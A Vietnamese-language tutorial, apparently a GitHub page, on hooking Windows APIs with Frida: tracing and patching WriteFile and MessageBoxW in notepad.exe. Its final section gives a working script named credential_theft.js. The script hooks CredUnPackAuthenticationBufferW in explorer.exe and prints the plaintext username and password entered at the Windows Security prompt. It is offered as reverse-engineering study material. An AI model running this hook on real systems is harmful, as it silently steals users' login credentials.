





# Instrumenting Windows APIs bằng Frida

## 1. Khởi chạy một chương trình bằng Frida

Khởi chạy một chương trình từ Frida:

```powershell
$ frida C:\Windows\System32\notepad.exe
     ____
    / _  |   Frida 14.2.18 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
Spawned `C:\Windows\System32\notepad.exe`. Use %resume to let the main thread start executing!
[Local::notepad.exe]->
```

Lúc này tiến trình `notepad.exe` là tiến trình con được sinh ra bởi `Frida`:


Trong bộ công cụ `frida-tools`, chúng ta có một chương trình là `frida-ps` có thể liệt kê tất cả các tiến trình đang chạy trên hệ thống. Có thể sử dụng nó để xác nhận `notepad.exe` đã được khởi chạy:
```powershell
$ frida-ps | findstr "notepad"
 14340  notepad.exe
```


## 2. Attaching một tiến trình bằng Frida
Để attaching một tiến trình bằng `Frida`, chúng ta phải tìm được PID của tiến trình cần attack sau đó sử dụng tham số `-p` của **Frida**:
```powershell
$ frida-ps | findstr "mspaint"
 7800  mspaint.exe

$ frida -p 7800
     ____
    / _  |   Frida 14.2.18 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/

[Local::PID::7800]->
```

## 3. Frida-Trace

`frida-trace` là một công cụ trong bộ `frida-tools`. Công cụ này có thể Tracing/Monitor các API được gọi trong một chương trình. Giả sử chúng ta cần monitor hàm `MessageBox` và `WriteFile` trong `notepad.exe`.

```powershell
$ frida-trace -i "MessageBoxW" -i "WriteFile" C:\Windows\System32\notepad.exe
```


## 4. Hooking Windows APIs bằng Frida

### 4.1. APIs Tracing với Frida

Có thể sử dụng Frida để hook vào một số hàm nào đó trong một chương trình với mục đích chặn bắt các tham số của hàm, thậm chí là sửa đổi các tham số này (Memory Patching). Trong trường hợp này tôi thử nghiệm hook vào hàm `WriteFile` và `MessageBoxW` của chương trình `notepad.exe`. Trước tiên, hãy cùng xem xét các hàm này được định nghĩa như thế nào trong tài liệu MSDN của Microsoft.

```C
BOOL WriteFile(
  HANDLE       hFile,
  LPCVOID      lpBuffer,
  DWORD        nNumberOfBytesToWrite,
  LPDWORD      lpNumberOfBytesWritten,
  LPOVERLAPPED lpOverlapped
);
```

```C
int MessageBoxW(
  HWND    hWnd,
  LPCWSTR lpText,
  LPCWSTR lpCaption,
  UINT    uType
);
```

Tham số `lpBuffer` của hàm `WriteFile` chính là con trỏ trỏ đến vùng đệm sẽ được ghi vào tệp. Theo thứ tự thì hàm này sẽ là tham số thứ hai.

Tham số `lpText` của hàm `MessageBoxW` là nội dung sẽ hiển thị trên box, `lpCaption` là tiêu đề của box khi hiển thị.

Khi `Frida` hook vào các hàm ta chỉ định trong `notepad.exe`. Ta thực hiện một số hành động sau:
- Dump nội dung và in ra màn hình giá trị của `lpBuffer` trong hàm `WriteFile`
- In ra màn hình nội dung của `lpText` và `lpCaption` trong hàm `MessageBoxW`

```javascript
var messageBox = Module.getExportByName(null, "MessageBoxW");
var writeFile = Module.getExportByName(null, "WriteFile");

Interceptor.attach(messageBox, {
    onEnter: function(args)
    {
		console.log("\nMessageBoxW at: " + messageBox);		
        console.log("  lpText: " + Memory.readUtf16String(args[1]));
        console.log("  lpCaption: " + Memory.readUtf16String(args[2]));
    }
});

Interceptor.attach(writeFile, {
    onEnter: function(args)
    {
		console.log("\nWriteFile at: " + writeFile);
        console.log("  Buffer dump:\n" + hexdump(args[1]));
        console.log("  Buffer via utf16String: " + Memory.readUtf16String(args[1]));
    }
});
```

Lưu đoạn **JavaScript** này lại. Tôi đặt là `apis_hooking.js`. Khởi chạy lại `notepad.exe` với tham số `-l` để nạp script vừa viết:
```powershell
$ frida -l .\hooking\apis_hooking.js C:\Windows\System32\notepad.exe --no-pause
```
Nhập một nội dung bất kỳ, ở đây tôi nhập chuỗi: `"This is fun!"`, sau đó tiến hành lưu tệp ra ổ cứng và quan sát trong `Frida` ta được như sau:

```powershell
WriteFile at: 0x7fff9f8b4fd0
  Buffer dump:
              0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F  0123456789ABCDEF
1e1a2823780  54 00 68 00 69 00 73 00 20 00 69 00 73 00 20 00  T.h.i.s. .i.s. .
1e1a2823790  66 00 75 00 6e 00 21 00 00 00 00 00 00 00 00 00  f.u.n.!.........
1e1a28237a0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
1e1a28237b0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
1e1a28237c0  00 00 00 00 00 00 00 00 08 00 35 a6 e1 01 00 00  ..........5.....
1e1a28237d0  00 00 00 00 00 00 00 00 ea db 96 12 48 70 00 10  ............Hp..
1e1a28237e0  f0 3d 82 a2 e1 01 00 00 c0 30 82 a2 e1 01 00 00  .=.......0......
1e1a28237f0  00 3e 82 a2 e1 01 00 00 d0 30 82 a2 e1 01 00 00  .>.......0......
1e1a2823800  30 52 82 a2 e1 01 00 00 10 3e 82 a2 e1 01 00 00  0R.......>......
1e1a2823810  00 00 89 9f ff 7f 00 00 d0 70 8a 9f ff 7f 00 00  .........p......
1e1a2823820  00 d0 0b 00 00 00 00 00 40 00 42 00 00 00 00 00  ........@.B.....
1e1a2823830  70 39 82 a2 e1 01 00 00 18 00 1a 00 00 00 00 00  p9..............
1e1a2823840  98 39 82 a2 e1 01 00 00 cc a2 0c 00 ff ff 00 00  .9..............
1e1a2823850  a0 76 83 a2 e1 01 00 00 60 a2 85 a1 ff 7f 00 00  .v......`.......
1e1a2823860  88 96 e6 61 00 00 00 00 00 00 00 00 00 00 00 00  ...a............
1e1a2823870  00 00 00 00 00 00 00 00 10 39 82 a2 e1 01 00 00  .........9......
  Buffer via utf16String: This is fun!
```

Tìm kiếm một chuỗi không tồn tại, mục đích để `Notepad` bắn ra MessageBox:



### 4.2. Memory Patching bằng Frida

`Frida` có một ưu điểm đó là trong lúc đang thực hiện hooking vào `notepad.exe` chúng ta có thể sửa mã JavaScript mà không cần phải chạy lại Frida, mã chúng ta sửa ngay lập tức được cập nhật. Chúng ta tiến hành sửa đoạn JavaScript trước đó thành như sau:
```powershell
var messageBox = Module.getExportByName(null, "MessageBoxW");
var writeFile = Module.getExportByName(null, "WriteFile");
var buff = Memory.allocUtf16String("F*ck y0u!!!!!!!")

Interceptor.attach(messageBox, {
    onEnter: function(args)
    {
		args[1] = buff
		args[2] = buff
		console.log("\nMessageBoxW at: " + messageBox);		
        console.log("  lpText: " + Memory.readUtf16String(args[1]));
        console.log("  lpCaption: " + Memory.readUtf16String(args[2]));
    }
});

Interceptor.attach(writeFile, {
    onEnter: function(args)
    {
		args[1] = buff
		console.log("\nWriteFile at: " + writeFile);
        console.log("  Buffer dump:\n" + hexdump(args[1]));
        console.log("  Buffer via utf16String: " + Memory.readUtf16String(args[1]));
    }
});
```
Kết quả sau khi hook hàm `MessageBoxW`


Kết quả sau khi hook hàm `WriteFile`

```powershell
WriteFile at: 0x7fff9f8b4fd0
  Buffer dump:
              0  1  2  3  4  5  6  7  8  9  A  B  C  D  E  F  0123456789ABCDEF
1e1a4376d40  46 00 2a 00 63 00 6b 00 20 00 79 00 30 00 75 00  F.*.c.k. .y.0.u.
1e1a4376d50  21 00 21 00 21 00 21 00 21 00 21 00 21 00 00 00  !.!.!.!.!.!.!...
1e1a4376d60  78 02 26 a4 e1 01 00 00 63 00 00 00 00 00 00 00  x.&.....c.......
1e1a4376d70  01 00 00 00 00 01 ad 00 00 00 00 00 00 00 00 00  ................
1e1a4376d80  60 6c 37 a4 e1 01 00 00 10 6e 37 a4 e1 01 00 00  `l7......n7.....
1e1a4376d90  50 6c 37 a4 e1 01 00 00 d0 6d 37 a4 e1 01 00 00  Pl7......m7.....
1e1a4376da0  00 00 00 00 00 00 00 00 10 bc 31 a4 e1 01 00 00  ..........1.....
1e1a4376db0  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
1e1a4376dc0  70 02 26 a4 e1 01 00 00 33 00 00 00 00 00 00 00  p.&.....3.......
1e1a4376dd0  00 00 00 00 00 00 00 00 81 01 00 00 00 00 00 00  ................
1e1a4376de0  d0 6d 37 a4 e1 01 00 00 d0 6d 37 a4 e1 01 00 00  .m7......m7.....
1e1a4376df0  00 00 00 00 00 00 00 00 63 00 00 00 00 00 00 00  ........c.......
1e1a4376e00  01 00 00 00 e0 01 01 00 00 00 00 00 00 00 00 00  ................
1e1a4376e10  80 6d 37 a4 e1 01 00 00 10 6f 37 a4 e1 01 00 00  .m7......o7.....
1e1a4376e20  a0 6e 37 a4 e1 01 00 00 60 6e 37 a4 e1 01 00 00  .n7.....`n7.....
1e1a4376e30  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  Buffer via utf16String: F*ck y0u!!!!!!!
```

### 4.3. Chặn bắt thông tin xác thực trên Windows 10

Sử dụng `Frida` để chặn bắt thông tin xác thực người dùng. Đầu tiên hãy kiểm tra PID của tiến trình `explorer`. Chúng ta cần kiểm tra tiến trình này là vì thông thường khi chạy một chương trình thì nó là tiến trình con của `explorer`.

```powershell
$ frida-ps | findstr "explorer"
20128  explorer.exe
```

Sử dụng `Frida-Trace` để theo dõi các API được gọi đến trong quá trình xử lý dữ liệu xác thực từ người dùng. Tôi sử dụng tham số `-i "*Cred*"` để lọc các API chứa chuỗi `Cred`, `-x "CredFree"` sẽ không theo dõi hàm `CredFree()`.

```powershell
$ frida-trace -i "*Cred*" -x "CredFree" -p 20128
```
Khởi chạy chương trình `C:\Windows\System32\notepad.exe` với tùy chọn `Run as different user`.



Lúc này một hộp thoại `Windows Security` xuất hiện đòi chúng ta nhập thông tin xác thực. Đồng thời ta quan sát trong `Frida`, hàm `CredUIPromptForWindowsCredentialsW()` được gọi:
```powershell
Started tracing 159 functions. Press Ctrl+C to stop.
           /* TID 0x42c0 */
 90061 ms  CredUIPromptForWindowsCredentialsW()
 90061 ms     | CredUIInternalPromptForWindowsCredentialsW()
 90061 ms     |    | CredUIInternalPromptForWindowsCredentialsWorker()
```

Nhập đại một vài thông tin nào đó sau đó nhấn OK.



Quan sát trong `Frida` ta thấy một số API thú vị sau được gọi:
```powershell
257149 ms  CredUnPackAuthenticationBufferW()
257149 ms  CredUnPackAuthenticationBufferW()
257149 ms     | CredUnprotectW()
257149 ms     |    | CredUnprotectEx()
257149 ms     |    |    | CredUnmarshalCredentialW()
257149 ms  CredUIParseUserNameW()
257149 ms     | CredIsMarshaledCredentialW()
257149 ms     |    | CredUnmarshalCredentialW()
257150 ms  CredUIPromptForWindowsCredentialsW()
257150 ms     | CredUIInternalPromptForWindowsCredentialsW()
257150 ms     |    | CredUIInternalPromptForWindowsCredentialsWorker()
```
Chúng ta không cần quan tâm đến đoạn: `257150 ms  CredUIPromptForWindowsCredentialsW()` vì đoạn này lặp lại đoạn trước đó, nó hiển thị hộp thoại `Windows Security` đòi nhập thông tin xác thực. Hàm cần quan tâm nhiều hơn là `CredUnPackAuthenticationBufferW()`. Cùng xem định nghĩa của hàm này trên MSDN:
```C
CREDUIAPI BOOL CredUnPackAuthenticationBufferW(
  DWORD  dwFlags,
  PVOID  pAuthBuffer,
  DWORD  cbAuthBuffer,
  LPWSTR pszUserName,
  DWORD  *pcchMaxUserName,
  LPWSTR pszDomainName,
  DWORD  *pcchMaxDomainName,
  LPWSTR pszPassword,
  DWORD  *pcchMaxPassword
);
```

Tham số mà chúng ta cần quan tâm đó là: `pszUserName` và `pszPassword`.
```javascript
var pszUserName, pszPassword, decryptedUsername, decryptedPassword;
var credUnPackAuthenticationBufferW = Module.findExportByName("Credui.dll", "CredUnPackAuthenticationBufferW");

Interceptor.attach(credUnPackAuthenticationBufferW, {
    onEnter: function (args)
	{
        // Credentials here are still encrypted
        pszUserName = args[3];
        pszPassword = args[7];
    },
    
	onLeave: function (result)
	{
        // Credentials are now decrypted
        decryptedUsername = pszUserName.readUtf16String()
        decryptedPassword = pszPassword.readUtf16String()
        if (decryptedUsername && decryptedPassword)
		{
			console.log("\n[*] Intercepted Credentials: ");
			console.log("[+] Username: " + decryptedUsername);
			console.log("[+] Password: " + decryptedPassword);
        }
    }
});
```
Dùng Frida hook vào `Explorer`:
```powershell
$ frida-ps | findstr "explorer"
 6724  explorer.exe

$ frida -l .\hooking\credential_theft.js -p 6724
```

Làm tương tự các bước như trên để nhập `username` và `password`. Sau đó quan sát trên Frida, ta có được thông tin xác thực đã bị chặn bắt:
```powershell
frida -l .\hooking\credential_theft.js -p 6724
     ____
    / _  |   Frida 14.2.18 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/

[Local::PID::6724]->
[*] Intercepted Credentials:
[+] Username: %COMPUTERNAME%\Alice
[+] Password: this_1s_s3cret_passw0rd
```


# 5. Tham khảo
- Instrumenting Windows APIs with Frida - https://www.ired.team/miscellaneous-reversing-forensics/windows-kernel-internals/instrumenting-windows-apis-with-frida
- Getting Started with Frida: Hooking a Function and Replacing its Arguments - https://blog.fadyothman.com/getting-started-with-frida-hooking-main-and-playing-with-its-arguments
- 3 Ways to Run App as Different User in Windows 10 - https://www.top-password.com/blog/run-app-as-different-user-in-windows-10/
